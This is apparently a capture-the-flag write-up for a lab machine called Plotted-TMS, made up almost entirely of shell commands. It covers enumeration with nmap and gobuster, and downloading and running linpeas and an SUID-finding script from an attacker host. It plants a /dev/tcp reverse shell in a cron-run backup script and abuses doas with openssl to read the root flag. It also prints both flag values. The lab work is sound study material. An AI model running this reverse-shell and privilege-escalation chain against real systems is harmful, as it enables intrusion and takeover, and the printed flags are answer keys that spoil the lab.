

# Plotted-TMS



## Task 1 Compromise

#### What is user.txt?

```bash
nmap -n -sV -sC 10.10.137.48
```


```bash
gobuster dir -u http://10.10.137.48 -w /usr/share/wordlists/common.txt \
             -t64
```


```bash
gobuster dir -u http://10.10.137.48:445 \
             -w /usr/share/dirb/wordlists/common.txt \
             -t64
gobuster dir -u http://10.10.137.48:445/management \
             -w /usr/share/dirb/wordlists/common.txt \
             -t64
```


 


```bash
nc -nvlp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
find / -type f -name user.txt 2>/dev/null
cat /home/plot_admin/user.txt
ls -l /home/plot_admin/
```


```bash
wget http://10.6.9.176/linpeas.sh -P /tmp
bash /tmp/linpeas.sh
```


```bash
ls -ld /var/www/scripts/
cat /var/www/scripts/backup.sh
```


```bash
echo '#!/bin/bash' > /var/www/scripts/backup2.sh
echo 'sh -i >& /dev/tcp/10.6.9.176/4445 0>&1' >> /var/www/scripts/backup2.sh
chmod +x /var/www/scripts/backup2.sh 
mv -f /var/www/scripts/backup2.sh /var/www/scripts/backup.sh 
```

```bash
nc -nvlp 4445
python3 -c 'import pty; pty.spawn("/bin/bash")'
cat /home/plot_admin/user.txt
```



`77927510d5edacea1f9e86602f1fbadb`


#### What is root.txt?

```bash
wget http://10.6.9.176/suid3num.py
python3 suid3num.py
cat /etc/doas.conf
/usr/bin/doas openssl enc -in /root/root.txt
```

.png>)



`53f85e2da3e874426fa059040a9bdcab`


## Xmind


